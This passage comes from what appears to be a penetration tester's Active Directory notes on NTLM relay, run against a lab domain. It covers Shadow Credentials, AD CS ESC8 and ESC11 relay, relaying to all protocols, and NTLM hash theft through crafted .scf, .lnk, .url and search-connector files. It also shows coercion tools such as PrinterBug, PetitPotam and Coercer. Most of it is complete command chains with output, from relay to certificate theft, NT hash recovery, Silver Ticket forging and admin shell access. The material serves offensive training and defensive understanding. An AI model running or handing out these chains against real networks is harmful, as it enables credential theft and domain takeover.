3. **NTLM Negotiate Message**: The web client retrieves the local user's credentials through the [**NTLMSSP**](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture#BKMK_NTLMSSP) **security provider** and sends a new request containing a base64-encoded **NTLM NEGOTIATE message**. This message informs the server of the authentication capabilities supported by the client.

```
GET /protected/resource.php
Authorization: NTLM <base64 NEGOTIATE_MESSAGE>
```

4. **NTLM Challenge Message**: The server processes the negotiate message and responds with another **401 Unauthorized** response containing a **CHALLENGE message**. The challenge includes a **random value** that the client must use to prove knowledge of the user's credentials.

```
HTTP/1.1 401 Unauthorized
WWW-Authenticate: NTLM <base64 CHALLENGE_MESSAGE>
```

5. **NTLM Authenticate Message**: The client processes the challenge and generates a response using the user's credentials. It then sends a final request containing the **NTLM AUTHENTICATE message**.

```
GET /protected/unlimitedCubes.php
Authorization: NTLM <base64 AUTHENTICATE_MESSAGE>
```

6. **Successful Authentication**: If the server validates the authentication message, it responds with a **successful HTTP 2xx status code** and returns the requested resource. This completes the authentication process.

Some HTTP clients (or tools) may not support NTLM authentication:

* [**Proxy-Ez**](https://github.com/synacktiv/Prox-Ez) can act as an intermediary that handles multiple HTTP authentication schemes, including NTLM.
* The **NTLMParse** utility from the [**ADFSRelay**](https://github.com/praetorian-inc/ADFSRelay/) project can decode **base64-encoded NTLM messages**, allowing attackers to inspect the contents of NEGOTIATE, CHALLENGE, and AUTHENTICATE messages.

#### AD CS - Shadow Credentials

The [**Shadow Credentials (SC) attack**](adcs.md#shadow-credentials) abuses the `msDS-KeyCredentialLink` attribute to add **alternative authentication credentials** to an account. If an attacker has **`GenericAll` or similar control over a user**, several options exist:

* **Reset the password** → Noisy and easily detected.
* **Dump and crack the NTLM hash** → Opportunistic and potentially time-consuming.
* **Shadow Credentials** → Add alternative authentication material to the account and request TGTs and NTLM authentication. This persistence remains even if the user changes their password.&#x20;

This makes Shadow Credentials a **stealthier and more persistent compromise technique**.

`ntlmrelayx` relays captured authentication to LDAP and adds **KeyCredential data** to the target account (`maria`). This effectively registers a **certificate-based authentication method** for that user.


```bash
# Start a Listener for relayed authentication
$ sudo python3 Responder.py -I ens192
...
HTTP server                [OFF]

# Relay authentication and inject Shadow Credential
$ ntlmrelayx.py -t ldap://MARVEL\\BOB@172.16.117.3 --shadow-credentials --shadow-target maria --no-da --no-dump --no-acl --no-smb-server
...
[*] Run the following command to obtain a TGT
[*] python3 PKINITtools/gettgtpkinit.py -cert-pfx rbnYdUv8.pfx -pfx-pass NRzoep723H6Yfc0pY91Z MARVEL.LOCAL/maria rbnYdUv8.ccache

# Request a Kerberos TGT using the certificate
$ python3 gettgtpkinit.py -cert-pfx rbnYdUv8.pfx -pfx-pass NRzoep723H6Yfc0pY91Z MARVEL.LOCAL/maria jperez.ccache

# Access the target
$ KRB5CCNAME=maria.ccache evil-winrm -i dc01.marvel.local -r MARVEL.LOCAL
```


#### AD CS - ESC Attacks

**AD CS** supports several certificate enrollment methods, including **HTTP-based enrollment**, which allows users and machines to request certificates via a web interface.

One common attack path involves **NTLM authentication relay**. If NTLM authentication is captured from a victim system, it can be **relayed to an AD CS web enrollment endpoint** to request a certificate on behalf of that authenticated identity.

The **Certification Authority (CA) web enrollment role service** exposes several HTTP endpoints used for certificate requests. These endpoints are commonly accessible at:

```
http://<servername>/certsrv/certfnsh.asp
```

If the endpoint accepts **NTLM authentication**, an attacker can relay captured NTLM credentials to the CA and request a certificate as the authenticated user or machine account. If successful, the attacker obtains a certificate that can be used to authenticate to the domain using **Kerberos PKINIT**, effectively impersonating the victim.


```bash
# Enumerate the server that hosts AD CS
$ nxc ldap 172.16.117.0/24 -u 'x7331$' -p 'Pass123!' -M adcs
...
ADCS        172.16.117.3    389    DC01     [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS                                        Found PKI Enrollment Server: DC01.MARVEL.LOCAL
ADCS                                        Found CN: MARVEL-DC01-CA

# List all certificates
$ nxc ldap 172.16.117.3 -u x7331$ -p 'Pass123!' -M adcs -o SERVER=MARVEL-DC01-CA

# Enumerate potentially vulnerable templates
$ certipy find -u 'x7331$'@172.16.117.3 -p 'Pass123!' -stdout -vuln
```


#### AD CS - ESC8

ESC8 refers to **NTLM Relay to AD CS HTTP Endpoints**. The environment must contain:

* A vulnerable **web enrollment endpoint**
* A certificate template allowing **machine enrollment + client authentication** (e.g. `Machine`)

Unlike LDAP relay attacks (which are often blocked by signing requirements), **relaying NTLM over HTTP is still permitted**, making the AD CS web enrollment interface a valuable target.

Even if `Certipy` flags a CA as vulnerable, administrators might disable NTLM authentication on the web endpoint. Therefore we must confirm whether the endpoint accepts **NTLM authentication** ([NTLMRecon](https://github.com/praetorian-inc/NTLMRecon)).

```bash
# Inspect headers
$ curl -I http://172.16.117.3/certsrv/

HTTP/1.1 401 Unauthorized
...
WWW-Authenticate: Negotiate
WWW-Authenticate: NTLM
...

# Fuzz for NTLM-enabled endpoints
$ ./NTLMRecon -t http://172.16.117.3/ -o json | jq

{
  "url": "http://172.16.117.3/CertSrv/",
  "ntlm": {
    "netbiosComputerName": "DC01",
    "netbiosDomainName": "MARVEL",
    "dnsDomainName": "MARVEL.LOCAL",
    "dnsComputerName": "DC01.MARVEL.LOCAL",
    "forestName": "MARVEL.LOCAL"
  }
}
```

If the pre-requisites are met, then an attacker can compromise **any computer running the spooler service** as follows:

1. **Coerce authentication** from a machine account ([`printerbug.py`](https://printerbug.pyhttps/raw.githubusercontent.com/dirkjanm/krbrelayx/refs/heads/master/printerbug.py)).
2. **Relay the NTLM authentication** to the AD CS HTTP enrollment endpoint ([`ntlmrelayx.py`](https://raw.githubusercontent.com/fortra/impacket/refs/heads/master/examples/ntlmrelayx.py)).
3. **Request a certificate** using the relayed identity (`ntlmrelayx.py`).
4. Use the certificate for **Kerberos authentication** ([`gettgtpkinit.py`](https://raw.githubusercontent.com/dirkjanm/PKINITtools/refs/heads/master/gettgtpkinit.py)).
5. Extract the **machine NT hash** ([`getnthash.py`](https://getnthash.pyhttps/raw.githubusercontent.com/dirkjanm/PKINITtools/refs/heads/master/getnthash.py)).
6. Forge a **Silver Ticket** ([`ticketer.py`](https://raw.githubusercontent.com/fortra/impacket/refs/heads/master/examples/ticketer.py)).


The `--template` flag is optional; both `ntlmrelayx` and `Certipy` will default to the `Machine` or `User` templates based on whether the relayed account name ends with `$` . However, relaying a DC's NTLM authentication requires specifying the `DomainController` template.



```bash
# Run relay
$ sudo ntlmrelayx.py -t http://172.16.117.3/certsrv/certfnsh.asp -smb2support --adcs --template Machine

# Coerce authentication from WS01$
$ python3 printerbug.py marvel/x7331$:'Pass123!'@172.16.117.50 172.16.117.30

# Obtain the certificate for WS01$
[*] SMBD-Thread-5: Received connection from 172.16.117.50, attacking target http://172.16.117.3
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://172.16.117.3 as MARVEL/WS01$ SUCCEED
...
[*] Base64 certificate of user WS01$:
MIIRPQIBAzCCEPcGCSqGSIb3DQEHAaCCEOgEghDkMIIQ4DCCBxcGCSqGSIb3DQEHBqCCBwgwggcEAgEAMI<SNIP>U6EWbi/ttH4BAjUKtJ9ygRfRg==

# Decode the cert to a PFX file
$ echo -n "MIIRPQIBAzCCEPcGCSqGSIb3DQEHAaCCEOgEghDkMIIQ4DCCBxcGCSqGSIb3DQEHBqCCBwgwggcEAgEAMI<SNIP>U6EWbi/ttH4BAjUKtJ9ygRfRg==" | base64 -d > ws01.pfx

# Request the TGT and AS-REP encryption key
$ python3 gettgtpkinit.py -dc-ip 172.16.117.3 -cert-pfx ws01.pfx 'MARVEL.LOCAL/WS01$' ws01.ccache
...
2023-08-13 08:30:36,451 minikerberos INFO     917ec3b9d13dfb69e42ee05e09a5bf4ac4e52b7b677f1b22412e4deba644ebb2
2023-08-13 08:30:36,456 minikerberos INFO     Saved TGT to file

# Retrieve the NT hash of WS01$
$ KRB5CCNAME=ws01.ccache python3 getnthash.py 'MARVEL.LOCAL/WS01$' -key 917ec3b9d13dfb69e42ee05e09a5bf4ac4e52b7b677f1b22412e4deba644ebb2
...
[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
3d3a72af94548ebc7755287a88476460

# Obtain the domain SID
$ lookupsid.py 'MARVEL.LOCAL/WS01$'@172.16.117.3 -hashes :3d3a72af94548ebc7755287a88476460
...
[*] Domain SID is: S-1-5-21-1207890233-375443991-2397730614
```


With the machine hash and domain SID, we can forge a **Kerberos** [**Silver Ticket**](../persistence/silver-ticket.md).


```bash
# Forge a Silver Ticket as Admin for WS01$
$ ticketer.py -nthash 3d3a72af94548ebc7755287a88476460 -domain-sid S-1-5-21-1207890233-375443991-2397730614 -domain marvel.local -spn cifs/ws01.marvel.local Administrator
...
[*] Saving ticket in Administrator.ccache

# Access WS01$ as Administrator
$ KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass ws01.marvel.local
```


ESC8 can be also performed with `Certipy` along with the PKINIT tools or [ADCSKiller](https://github.com/grimlockx/ADCSKiller).


```bash
# Relay with Certipy (must be run as root)
$ sudo certipy relay -target "http://172.16.117.3" -template Machine

# Coerce authentication from WS01$
$ python3 printerbug.py inlanefreight/plaintext$:'o6@ekK5#rlw2rAe'@172.16.117.50 172.16.117.30

# Obtain the certificate for WS01$
...
[*] Requesting certificate for 'INLANEFREIGHT\\WS01$' based on the template 'Machine'
[*] Got certificate with DNS Host Name 'WS01.INLANEFREIGHT.LOCAL'
[*] Saved certificate and private key to 'ws01.pfx'

# Retrieve the NT hash of WS01$
$ certipy auth -pfx ws01.pfx -dc-ip 172.16.117.3
...
[*] Saved credential cache to 'ws01.ccache'
[*] Got hash for 'ws01$@inlanefreight.local': aad3b435b51404eeaad3b435b51404ee:3d3a72af94548ebc7755287a88476460
```


From here, we can continue the attack chain and forge a silver ticket with `ticketer.py`.

#### AD CS - ESC11

Unlike ESC8, which relays authentication to the HTTP web enrollment interface, **ESC11 targets the** **RPC-based certificate enrollment interface** exposed by the CA, i.e., performs **NTLM Relay to** [**ICertPassage Remote Protocol (MS-ICPR)**](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-icpr/9b8ed605-6b00-41d1-9a2a-9897e40678fc) **endpoints**.&#x20;

The MS-ICPR is part of the [**Windows Client Certificate Enrollment Protocol (MS-WCCE)**](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-wcce/446a0fca-7f27-4436-965d-191635518466) and provides an RPC mechanism that allows domain clients to request and receive **X.509 certificates** from the CA. **The sole purpose of ICPR is to handle certificate enrollment operations between clients and the CA.**

The **ICertPassage interface** exposes only a single RPC method: [`CertServerRequest (Opnum 0)`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-icpr/0c6f150e-3ead-4006-b37f-ebbf9e2cf2e7).

This method is responsible for processing **certificate enrollment requests** (CERs) sent by clients to the CA. When a system requests a certificate, the request is transmitted through this method and the CA processes it based on the configured certificate templates and permissions. Because this interface allows authenticated clients to request certificates, it becomes a valuable target if authentication can be **relayed** to it.

CERs over ICPR can be protected using a configuration flag:


```
IF_ENFORCEENCRYPTICERTREQUEST
```


This flag determines whether certificate requests sent to the CA must be **encrypted**. If the CA configuration contains this flag, the CA enforces the use of the RPC authentication level:

```
RPC_C_AUTHN_LEVEL_PKT_PRIVACY
```

This authentication level ensures **full encryption of RPC communications** between the client and the CA. If a client attempts to establish a connection without this protection while the flag is enabled, the CA will refuse the request and return the error:

```
E_ACCESSDENIED (0x80000009)
```

This behavior prevents attackers from relaying authentication to the certificate service. However, if the `IF_ENFORCEENCRYPTICERTREQUEST` flag is **not enabled**, the CA will accept **unencrypted certificate enrollment requests**. This flag can be disabled using:

```powershell
certutil -setreg CA\InterfaceFlags -IF_ENFORCEENCRYPTICERTREQUEST
```


Starting with **Windows Server 2012**, the `IF_ENFORCEENCRYPTICERTREQUEST` flag is **enabled by default**.

This setting was introduced primarily to enforce secure certificate enrollment communications. One side effect is that **legacy systems**, such as **Windows XP clients**, cannot request certificates when the flag is enabled because they do not support encrypted certificate request sessions.

For this reason, some environments historically disabled the flag to maintain compatibility with older systems. However, doing so unintentionally exposes the CA to **ESC11 attacks**.


This misconfiguration makes it possible to:

1. **Coerce SMB NTLM authentication** from a victim system.
2. **Relay the captured NTLM authentication** to the CA’s **ICPR RPC interface**.
3. Establish an authenticated session with the CA.
4. Request a certificate on behalf of the authenticated machine or user.

Because certificate enrollment is performed within the authenticated session, the attacker effectively obtains a **valid certificate for the victim identity**. This certificate can then be used for **Kerberos PKINIT authentication**, enabling the attacker to obtain Kerberos tickets and potentially extract **NT hashes** or escalate privileges.


```bash
# Start relay
$ certipy relay -target "rpc://172.16.117.3" -ca "MARVEL-DC01-CA"

# Coerce authentication from WS01$
$ python3 printerbug.py marvel/x7331$:'Pass123!'@172.16.117.50 172.16.117.30

# Obtain the certificate for WS01$
...
[*] Attacking user 'WS01$@MARVEL'
[*] Template was not defined. Defaulting to Machine/User
[*] Requesting certificate for user 'WS01$' with template 'Machine'
[*] Saved certificate and private key to 'ws01.pfx'
```


From this point onward, the attack chain continues the same way as [**ESC8**](ntlm-relay.md#a-d-cs-esc8), using `certipy auth` to extract the machine hash and escalate privileges.

### Over RPC

[**Remote Procedure Call (RPC)**](https://pubs.opengroup.org/onlinepubs/9629399/chap1.htm) is a protocol that allows a program to execute procedures on a remote system as if they were local function calls. RPC enables a client to:

1. Send a request to a remote server
2. Specify the procedure to execute
3. Provide the required data
4. Receive the execution results

To ensure compatibility across platforms and languages, RPC interfaces are defined using an [**Interface Definition Language (IDL)**](https://pubs.opengroup.org/onlinepubs/9629399/chap4.htm#tagcjh_08). IDL describes the functions and data structures that can be invoked remotely. Several technologies implement RPC-style communication, including DCE RPC, gRPC, Java RMI, CORBA, and DCOM.

Microsoft implements RPC through [**Remote Procedure Call Protocol Extensions (MS-RPCE)**](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/290c38b1-92fe-4229-91e6-4fc376610c15?source=recommendations). MS-RPCE extends the original DCE RPC specification by adding additional security mechanisms, introducing new capabilities, and enforcing stricter implementation requirements. One important feature of MS-RPCE is support for multiple **authentication providers**. For NTLM relay attacks, the important provider is **`RPC_C_AUTHN_WINNT`.**

<table><thead><tr><th>Name</th><th width="211">Value</th><th>Authentication Provider</th></tr></thead><tbody><tr><td><code>RPC_C_AUTHN_NONE</code></td><td><code>0x00</code></td><td>No authentication</td></tr><tr><td><code>RPC_C_AUTHN_GSS_NEGOTIATE</code></td><td><code>0x09</code></td><td>SPNEGO</td></tr><tr><td><code>RPC_C_AUTHN_WINNT</code></td><td><code>0x0A</code></td><td>NTLM</td></tr><tr><td><code>RPC_C_AUTHN_GSS_SCHANNEL</code></td><td><code>0x0E</code></td><td>TLS</td></tr><tr><td><code>RPC_C_AUTHN_GSS_KERBEROS</code></td><td><code>0x10</code></td><td>Kerberos</td></tr><tr><td><code>RPC_C_AUTHN_NETLOGON</code></td><td><code>0x44</code></td><td>Netlogon</td></tr><tr><td><code>RPC_C_AUTHN_DEFAULT</code></td><td><code>0xFF</code></td><td>Defaults to NTLM</td></tr></tbody></table>

RPC also supports several [**authentication levels**](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/425a7c53-c33a-4868-8e5b-2a850d40dc73), which define how much protection is applied to RPC communications. If an RPC interface allows the level: `RPC_C_AUTHN_LEVEL_CONNECT` then NTLM authentication may only be verified during connection establishment without full message integrity protection. This weaker protection can allow **NTLM relay attacks**, because the authentication is not cryptographically bound to the RPC session. Higher authentication levels that enforce message integrity or encryption typically prevent relaying.

Only a small number of RPC protocols can realistically be abused for NTLM relay attacks, such as [**Task Scheduler Service Remoting Protocol (MS-TSCH)**](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931) and [**ICertPassage Remote Protocol (MS-ICPR)**](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-icpr/9b8ed605-6b00-41d1-9a2a-9897e40678fc).

#### NTLM Relay over MS-TSCH

`ntlmrelayx` supports relaying NTLM authentication to the **MS-TSCH**. If successful, this can allow an attacker to create scheduled tasks and achieve RCE. This technique has historically been used against **Microsoft Exchange servers**, where relayed authentication could allow attackers to execute arbitrary commands through the Task Scheduler service.

### Over ALL

`ntlmrelayx` supports the `all://` wildcard, which allows attackers to relay authentication attempts to **all supported protocols on a target** rather than specifying a single service. This approach increases the likelihood of a successful relay by attempting authentication against multiple services simultaneously.

Instead of specifying a single protocol (e.g., `smb://` or `ldap://`), we can use the `all://` scheme when defining relay targets.

```bash
$  cat relayTargets.txt
all://172.16.117.50
all://172.16.117.60
```

Before running the attack, all servers in **Responder** must be disabled to prevent conflicts with `ntlmrelayx`, which will handle the relay process.


```bash
# Set all servers to OFF
sed -i '4,18s/= On/= Off/g' Responder.conf

# Launch responder
sudo python3 Responder.py -I ens192

# Launch relay with SOCKS
$ sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -socks
...
[*] SMBD-Thread-39: Connection from MARVEL/BOB@172.16.117.3 controlled, attacking target http://172.16.117.50
[*] SMBD-Thread-40: Connection from MARVEL/MARIA@172.16.117.3 controlled, attacking target smtp://172.16.117.50
[*] SMBD-Thread-41: Connection from MARVEL/JAKE@172.16.117.3 controlled, attacking target smb://172.16.117.50
[*] Authenticating against smb://172.16.117.50 as MARVEL/JAKE SUCCEED
[*] SOCKS: Adding MARVEL/JAKE@172.16.117.50(445) to active SOCKS connection. Enjoy
[*] SMBD-Thread-41: Connection from MARVEL/JAKE@172.16.117.3 controlled, attacking target rpc://172.16.117.50
...
ntlmrelayx> stopservers
[*] Shutting down HTTP Server
[*] Shutting down SMB Server
[*] Shutting down RAW Server
[*] Shutting down WCF Server
[*] Relay servers stopped

ntlmrelayx> socks

Protocol  Target         Username      AdminStatus  Port
--------  -------------  ------------  -----------  ----
SMB       172.16.117.50  MARVEL/JAKE   FALSE        445
SMB       172.16.117.50  MARVEL/MARIA  TRUE         445
HTTPS     172.16.117.50  MARVEL/BOB    N/A          1433
MSSQL     172.16.117.60  MARVEL/BOB    N/A          1433
```


These authenticated sessions can be accessed using tools such as `proxychains`, `smbclient`, and `mssqlclient`. This allows attackers to **interact with services using the relayed credentials without knowing the user's password**.

## NTLM Theft

When LLMNR, NBT-NS, and mDNS poisoning is not an option, NTLM hashes can be extracted via other protocols, such as file uploads via SMB or direct authentication via MSSQL. When extracted, they can either be used for Pass-the-Hash or NTLM relay attacks.

### SMB File Uploads

The following techniques generally require **`WRITE` access to an SMB share or directory**. However, in some cases share permissions allow **folder creation but not file creation**, which may still be reported as **WRITE access** by tools such as **NetExec**, even though files cannot actually be written to the share.

Two common scenarios exist:

* **Full `WRITE` access to the share** – automation modules can be used.
* **`WRITE` access only within a subdirectory of a readable share** – files must be uploaded manually.


`.url`, `.lnk`, and `.scf` files can trigger **NTLM authentication** when a user browses a shared folder, as Windows Explorer attempts to retrieve the **remote icon** defined in the file. However, `.scf` files may be less reliable on modern Windows systems due to changes in Explorer behavior and endpoint protections. In contrast, `.sc` files typically require **user interaction or execution** to trigger authentication.


#### File Types

A **Shell Command File (.scf)** is a Windows configuration file used by Explorer to execute basic shell commands. These files can define a remote icon location, causing Windows to attempt authentication to the specified network resource when the folder is viewed.

> [SMB Share – SCF File Attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)


```
[Shell]
Command=2
IconFile=\\10.10.10.10\share\test.ico

[Taskbar]
Command=ToggleDesktop
```


If a share is locally mounted and **`WRITE` access exists only in a subdirectory**, the file can be copied directly:

```bash
sudo cp example.scf SMB/Users/WritableDir
```

A **Windows Shortcut (.lnk)** file points to another file, folder, or program. When Explorer attempts to display the shortcut icon, Windows may attempt to retrieve the icon from a remote location. This remote icon retrieval triggers an **NTLM authentication request** to the attacker-controlled host.

Placing the **`@` character** at the beginning of the `.lnk` filename, e.g. `@myfile`, causes the file to appear at the top of the directory listing in Windows Explorer. This increases the likelihood that the icon is processed immediately when a user browses the share, triggering the remote icon retrieval and the corresponding NTLM authentication attempt.

A **Service Configuration (SC) file** is used to define Windows services and their configuration parameters. When used in NTLM theft scenarios, it can reference remote network paths, causing authentication attempts. This method is similar to the LNK technique but requires escaping the network path:


```
\\\\attacker-ip\\share
```


A **Windows Internet Shortcut (.url)** file links to a web or network resource. While not executable, it can specify a remote icon location.


```
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\192.168.45.241\%USERNAME%.icon
IconIndex=1
```


```bash
# Uplad the file
smb: \> put @malicious.url
```

#### Tools

[`ntml_theft`](https://github.com/Greenwolf/ntlm_theft) is a tool used to generate multiple file types that can trigger **NTLM authentication attempts** when accessed by a Windows system. These files reference attacker-controlled network resources, causing the victim machine to automatically attempt authentication and leak **NTLM hashes**. The tool can generate **21 different file formats** commonly used for NTLM hash theft, including `.scf`, `.lnk`, and `.url`.


```bash
# Generate all possible files
ntlm_theft.py -g all -s <attacker-ip> -f test

# Monitor traffic
sudo responder -I tun0

# Upload the file into a writable share
nxc smb 10.1.1.5 -u x7331 -p Pass123! --share share --put-file test/test.lnk test.lnk
```


[NetExec](https://github.com/Pennyw0rth/NetExec) has modules for automating the creation and upload process.


```bash
# SCF
$ nxc smb -M scuffy --options
[*] scuffy module options:

SERVER      IP of the SMB server
NAME        SCF file name
CLEANUP     Cleanup (choices: True or False)

# LNK
$ nxc smb -M slinky --options
[*] slinky module options:

SERVER        IP of the listening server (running Responder, etc)
NAME          LNK file name written to the share(s)
ICO_URI       Override full ICO path (e.g. http://192.168.1.2/evil.ico or \\\\192.168.1.2\\testing_path\\icon.ico)
SHARES        Specific shares to write to (comma separated, e.g. SHARES=share1,share2,share3)
IGNORE        Specific shares to ignore (comma separated, default: C$,ADMIN$,NETLOGON,SYSVOL)
CLEANUP       Cleanup (choices: True or False)

# SC
$ nxc smb -M drop-sc --options
[*] drop-sc module options:

Technique discovered by @DTMSecurity and @domchell to remotely coerce an host to start WebClient service.
https://dtm.uk/exploring-search-connectors-and-library-files-on-windows/
Module by @zblurx
URL         URL in the searchConnector-ms file, default https://rickroll
CLEANUP     Cleanup (choices: True or False)
SHARE       Specify a share to target
FILENAME    Specify the filename used WITHOUT the extension searchConnector-ms (it is automatically added), default is "Documents"

# searchConnector-ms
$ nxc smb -M drop-library-ms --options
[*] drop-library-ms module options:

SERVER      Attacker machine
NAME        File name
IGNORE      Specific shares to ignore (comma separated, default: C$,ADMIN$,NETLOGON,SYSVOL)
CLEANUP     Cleaning option (True or False)
```


#### WebDAV

> [WebClient abuse (WebDAV)](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/webclient)

[**Web Distributed Authoring and Versioning (WebDAV)**](https://learn.microsoft.com/en-us/windows/win32/webdav/webdav-portal) is an extension of HTTP that allows remote file management operations such as creating, copying, moving, and deleting files. In Windows environments, the **WebClient service** enables WebDAV functionality and allows systems to access files hosted over HTTP using UNC-style paths.

The WebClient service is **enabled by default on Windows workstations**, but is typically **disabled on Windows servers**.

Hosts where the WebClient service is enabled can be identified using NetExec. It is important to note that while the service may be **enabled**, it is not always **actively running** on the system.

```bash
nxc smb 172.16.117.0/24 -u x7331 -p 'Passw0rd123!' -M webdav
```

The WebClient service can often be started by placing a [**Windows Search Connector**](https://learn.microsoft.com/en-us/windows/win32/search/search-sconn-desc-schema-entry) **(`.searchConnector-ms`)** file on an accessible SMB share.

Search connector files are used to integrate Windows Search with remote web services or data sources. When a user accesses the file, Windows may attempt to connect to the referenced resource, which can cause the **WebClient service to start automatically**.


```bash
nxc smb 172.16.117.3 -u anonymous -p '' -M drop-sc -o URL=https://172.16.117.30/testing SHARE=smb FILENAME=@secret
```


Example search connector file:


```
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>https://whatever/</url>
    </simpleLocation>
</searchConnectorDescription>
```


Once the file is accessed, the WebClient service may start automatically.

```bash
$ nxc smb 172.16.117.0/24 -u x7331 -p 'Passw0rd123!' -M webdav
...
WEBDAV      172.16.117.50   445   WS01   WebClient Service enabled on: 172.16.117.50
```

After the WebClient service is running, it becomes possible to coerce the system into performing **HTTP-based NTLM authentication**. This can be achieved by referencing a **WebDAV UNC path** within a malicious file. For example, a `.lnk` file can reference a specially crafted path such as:

```
\\ANY_STRING@8008\important
```

This forces Windows to attempt authentication to the specified host over HTTP.

```bash
nxc smb 172.16.117.3 -u anonymous -p '' -M slinky -o SERVER=NOAREALNAME@8008 NAME=important
```

### Coercive Authentication

Authentication coercion techniques abuse the fact that **Windows systems automatically authenticate to remote hosts when accessing UNC paths** (e.g., `\\172.16.117.30\file.txt`). By triggering specific **RPC methods**, an attacker can force a target system to authenticate to an attacker-controlled machine, allowing the credentials to be **captured or relayed**.

Typical process:

1. Authenticate to a remote system using valid domain credentials, typically, over SMB). HTTP-based authentication can be coerced by enabling the [**WebClient (WebDAV)**](ntlm-relay.md#webdav) service and forcing the system to access a WebDAV path.
2. Access an SMB named pipe such as `\PIPE\netdfs`, `\PIPE\efsrpc`, `\PIPE\lsarpc`, or `\PIPE\lsass`.
3. Bind to the corresponding **RPC interface** and invoke a method that forces the target to authenticate to an attacker-controlled listener.

#### PrinterBug

PrinterBug abuses the [**Print System Remote Protocol (MS-RPRN)**](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) used by the **Print Spooler service**, which runs by default on most Windows systems. Several tools implement this technique, such as NXC's [`coerce_plus`](https://www.netexec.wiki/news/v1.3.0-needforspeed#coerce_plus-module) module, [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py), [MSRPRN-coerce](https://github.com/p0dalirius/MSRPRN-Coerce) (Python), and [SpoolSample](https://github.com/leechristensen/SpoolSample) (C#).


```bash
# Monitor traffic
$ python3 Responder.py -I ens192 

# Coerce DC authentication via MS-RPRN (Responder -> SMB: On)
python3 printerbug.py marvel/x7331:Pass123@172.16.117.3 172.16.117.30

# Coerce DC authentication via HTTP (attack-machine@port/path) (Responder -> HTTP: On)
python3 printerbug.py marvel/x7331:Pass123@@172.16.117.60 SUPPORTPC@80/print
```


#### PetitPotam

[PetitPotam](https://github.com/topotam/PetitPotam) abuses methods in the [**Encrypting File System Remote Protocol (MS-EFSR)**](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31), more specifically, [`EfsRpcOpenFileRaw`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8) and [`EfsRpcEncryptFileSrv`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/0d599976-758c-4dbd-ac8c-c9db2a922d76). Originally, this attack allowed authentication coercion **without valid credentials**. However, this was patched in [CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942), and modern environments typically require valid credentials.


```bash
# SMB auth (listener target)
$ python3 PetitPotam.py 172.16.117.30 172.16.117.3 -u 'x7331' -p 'Pass123' -d marvel.local

# HTTP auth
$ python3 PetitPotam.py WIN-MMRQDG2R0ZX@80/files 172.16.117.60 -u 'x7331' -p 'Pass123'
```


#### DFSCoerce

DFSCoerce abuses the [**Distributed File System Namespace Management Protocol (MS-DFSNM)**](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) through the following RPC methods: [`NetrDfsAddStdRoot`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/b18ef17a-7a9c-4e22-b1bf-6a4d07e87b2d) and [`NetrDfsRemoveStdRoot`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/e9da023d-554a-49bc-837a-69f22d59fd18). Unlike some other coercion techniques, DFSCoerce does not support HTTP coercion.

```bash
python3 dfscoerce.py -u 'x7331' -p 'Pass123' 172.16.117.30 172.16.117.3
```

#### Coercer

> [Searching for RPC Functions to Coerce Authentications in Microsoft Protocols](https://www.youtube.com/watch?v=JWI_khgpyYM)

[Coercer](https://github.com/p0dalirius/Coercer) is a tool that automates authentication coercion across **multiple RPC protocols**, supporting **17 different coercion methods**.

The `scan` mode identifies RPC methods capable of triggering authentication.


```bash
# Identify RPC connection methods
Coercer scan -t 172.16.117.50 -u 'x7331' -p 'Pass123' -d marvel.local -v
```


The `coerce` mode triggers the authentication for NTLM extraction or relay.


```bash
# Trigger SMB authentication
Coercer coerce -t 172.16.117.50 -l 172.16.117.30 -u 'x7331' -p 'Pass123' -d marvel.local -v --always-continue

# Trigger HTTP authentication (WebDAV)
Coercer -t 172.16.117.60 -l WIN-H323DMHS2GT -u 'x7331' -p 'Pass123' -v --auth-type http --always-continue
```


#### Manual Exploitation

Instead of relying on automated tools, coercion can be performed manually using individual **RPC proof-of-concept scripts** from the [windows-coerced-authentication-methods](https://github.com/p0dalirius/windows-coerced-authentication-methods) repository. For example, to abuse the `NetrDfsAddStdRoot` method of **MS-DFSNM**:


```bash
python3 coerce_poc.py -u 'x7331' -p 'Pass123' -d marvel.local 172.16.117.30 172.16.117.3
```


#### Other Authentication Coercion Techniques

Additional coercion methods include:

* [**MS-FSRVP**](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-fsrvp)
